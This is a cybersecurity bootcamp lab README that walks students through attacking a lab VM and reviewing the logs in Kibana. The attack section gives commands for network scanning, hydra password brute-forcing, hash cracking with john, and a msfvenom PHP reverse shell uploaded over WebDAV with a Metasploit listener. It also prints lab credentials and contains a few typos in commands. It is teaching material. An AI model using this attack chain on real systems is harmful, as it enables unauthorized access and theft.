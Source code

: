 ## Unit  README: 

### Unit Description

In the second project week, you will work on a Red Team vs. Blue Team scenario in which you will play the role of both pentester and SOC analyst.

As the Red Team, you will attack a vulnerable VM within your environment, ultimately gaining root access to the machine. As Blue Team, you will use Kibana to review logs taken during their Day 1 engagement. You'll use the logs to extract hard data and visualizations for their report.

Then, you will interpret your log data to suggest mitigation measures for each exploit that you've successfully performed.


### Unit Objectives

<details>
    <summary>Click here to view the daily unit objectives.</summary>
<br>

This week's project will prompt you to apply knowledge of the following skills and tools:

- Penetration testing with Kali Linux.

- Log and incident analysis with Kibana.

- System hardening and configuration.

- Reporting, documentation, and communication.


</details>


## Project

---

## Stage 1: Settng up VMs

There are three Machines in the network

1) Kali VM - The Attacker machine

2) Capstone VM - The Victim machine

3) ELK VM - For monitoring and generating logs




**Setting up Capstone VM to enable collection of Logs**

- Cap stone VM credentials: `vagrant:tnargav` and switch to the root user with `sudo su`

- Setting up **filebeat** ships log data (simplifies, parsing, visualization of log formats) from server to ELK Stack or monitoring VM

- `filebeat modules enable apache`
- `filebeat setup`


- Setting up **metricbeat** ships metrics data from server (e-g MongoDB, MYSQL, Apache) to ELK Stack or monitoring VM

- `metricbeat modules enable apache`
- `metricbeat setup`


- Setting up **packetbeat** integrates Elasticsearch and Kibana to provide realtime analysis 

- `packetbeat setup`


- Restarting services after initial installation

`systemctl restart filebeat`
`systemctl restart metricbeat`
`systemctl restart packetbeat`

---
## Stage 2: Attacking the Capsone VM using the VM Kali Linux

- Stages of Engagement: The commands below are run on the Kali Linux. In this case the Hacker's machine (Kali Linux) is already part of the network. That is why there is no need to perform OSNIT/Recon-NG in this project as we are not targeting any external network or website

a) **Information Gathering**: Obtaining info regarding the network, e-g ip addresses etc

- `ifconfig` to discover the network ip address and range

- `netdiscover` to determine the active hosts on the network- The actual command is below

- `netdiscover -r 192.168.1.255/16`



b) **Scanning**

- Checking the hosts again with ping: `nmap -pn 192.168.1.255/16`

- Scanning for open ports and Version: `nmap -sV 192.168.1.1-105`

- Checking for OS: `nmap -sS -A 192.168.1.105`

- Typing the ip address of the victim in the brower can reveal folder directories on the "HTML page" if there are security loop holes such as no formal index.html. The directories may or may not be password protected. 

- gives information about the company_folders and secret_folder and we find that they are password protected

- Alternatively If you know the path to a file, you can attempt to download it directly  `wget 192.168.1.105/company_folders/customer_info/customers.txt`

- `wget 192.168.1.105/meet_our_team/ashton.txt`

- Or run an nmap script reveal hidden files and directories : `nmap --script http-enum -p80 192.168.1.105`. Here `http-enum` is an NSE (Nmap scripting engine) script provides insights regarding the types of servers and applications in use within the subnet. 

- These also inform that the username is Ashton for these password protected folders

- Scanning for directories using dirb

`dirb http://192.168.1.105/ /usr/share/wordlists/dirb/common.txt`

c) **Exploitation**

- Using hydra to brute force ashton's pasword. username: `ashton`

- Unziping the worlist to try to bruteforce attack. Note that in kali linux there is a pre-stored wordlist `/usr/share/wordlists` if it is zipped then it must be unzipped before it can be used

- `gunzip /usr/share/wordlists/rockyou.txt.gz`

- Hydra brute force action: `hydra -l ashton -p /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder/`

- On accessing the secret folder, a new username noted: ryan, need to crack its hash that is also provided in the secret folder

- Crack hash with john the ripper: `john --format=raw-md5 stu_hash`

- Now access Webdav with the username ryan and the cracked password : by typing `dav://192.168.1.105/webdav/` in browser

- Msfvenom to create a reverse shell script in Kali Linux (hacker's VM)

- `msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.1.90 LPORT=666 -f raw > shell.php`

- Once shell.php is generated then you can copy it into `dav://192.168.1.105/webdav/` from the browser - this can be done from Kali Linux. In other words you will be 

- Now in Kali Linux run **Metasploit** and run the following commands to prepare for listening and retrograde connection of the  Capstone VM(victim) with Kali Linux. Run the following commands:

- `msfconsole`
- `set payload php/meterpreter/reverse_tcp`
- `set lhost 192.168.1.90`
- `set lport 666`
- `run`


- Run the malacious shell script on the Victim (Capstone) VM, you can actally run this from Kali linux by typing ` 192.168.1.105/webdav/shell.php` into the browser - this will run the script on the Capstone server

- This will open up a meterpreter shell

- Find the flag with meterpreter

- `find / -name flag.txt 2>/dev/null`





d) Post-exploitation

e) Reporting










### Lab Environment

<details>

<summary>Click here to view the lab environnement.</summary>

<br>

In this unit, you will be using the Web Vulns lab environment located in Windows Azure Lab Services. RDP into the Windows RDP host machine using the following credentials:

Username: `azadmin`
Password: `p4ssw0rd*`

Open the Hyper-V Manager to access the nested machines:

- ELK machine credentials:

    - Username: vagrant
    - Password: vagrant

**Next Week's Lab Environment**: At the end of 20.3, we will set up a new Azure Lab Environment for the Forensics unit.  


</details>


### What to Be Aware Of:

- Day 1 can be completed as a competition between the students. If you wish to do so, split the students into teams and have them compete to win a prize! The first team to complete _all_ the steps wins.

- Let students know that to complete Day 2 they must complete steps 1-6 from Day 1. Finding the flag isn't critical, but students need to progress past the point of uploading the reverse shell script.

- Throughout Day 2, it is important that the students take screen shots of each step they complete. These screen shots will be used in their Day 3 Report.

### Security+ Domains

This unit covers portions of the following domains on the Security+ exam:

<details>
    <summary>Click here to see some Security+ Domains that are relevant to this project.</summary>
 <br>

- Types of attacks
- Indicators of compromise
- Penetration testing concepts
- Vulnerability scanning concepts
- Impact of vulnerabilities
- Security assessment tools 

</details> 

<br>

For more information about these Security+ domains, refer to the following resource: [Security+ Exam Objectives](https://www.comptia.jp/pdf/Security%2B%20SY0-501%20Exam%20Objectives.pdf)


### Additional Reading and Resources

<details> 
<summary> Click here to view additional reading materials and resources. </summary>
</br>

Day 1:

- [Red Team Vs Blue Team](https://securitytrails.com/blog/cybersecurity-red-blue-team)
- [What is Vulnerability Scanning](https://www.esecurityplanet.com/network-security/vulnerability-scanning.html)
- [What is a reverse shell](https://www.acunetix.com/blog/web-security-zone/what-is-reverse-shell/)


Day 2: 

- [Kibana: Discover Documentation](https://www.elastic.co/guide/en/kibana/7.7/discover.html)
- [Kibana: Visualize Documentation](https://www.elastic.co/guide/en/kibana/7.7/visualize.html)
- [Elasticsearch Reference Documentation](https://www.elastic.co/guide/en/elasticsearch/reference/current/index.html)


</details>

---

### Looking Forward 

In the next week, we will cover the specialized field of digital forensics. We will cover a new set of skills and tools that allow us to analyze evidence on digital technology after an security incident or crime occurs.  

---


© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.
